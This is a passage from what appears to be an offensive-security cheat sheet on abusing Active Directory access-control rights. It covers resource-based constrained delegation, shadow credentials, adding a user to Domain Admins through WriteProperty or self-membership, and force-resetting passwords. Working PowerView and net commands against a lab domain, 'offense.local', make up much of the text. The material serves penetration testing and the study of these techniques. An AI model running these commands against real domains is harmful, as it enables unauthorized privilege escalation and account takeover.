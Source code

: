 ## **GenericAll / GenericWrite / Write on Computer/User**

Holding these privileges on a computer object or a user account allows for:

- **Kerberos Resource-based Constrained Delegation**: Enables taking over a computer object.
- **Shadow Credentials**: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials.

## **WriteProperty on Group**

If a user has `WriteProperty` rights on all objects for a specific group (e.g., `Domain Admins`), they can:

- **Add Themselves to the Domain Admins Group**: Achievable via combining `net user` and `Add-NetGroupUser` commands, this method allows privilege escalation within the domain.

```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **Self (Self-Membership) on Group**

This privilege enables attackers to add themselves to specific groups, such as `Domain Admins`, through commands that manipulate group membership directly. Using the following command sequence allows for self-addition:

```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **WriteProperty (Self-Membership)**

A similar privilege, this allows attackers to directly add themselves to groups by modifying group properties if they have the `WriteProperty` right on those groups. The confirmation and execution of this privilege are performed with:

```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```

## **ForceChangePassword**

Holding the `ExtendedRight` on a user for `User-Force-Change-Password` allows password resets without knowing the current password. Verification of this right and its exploitation can be done through PowerShell or alternative command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments. The commands range from simple PowerShell invocations to using `rpcclient` on Linux, demonstrating the versatility of attack vectors.

```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
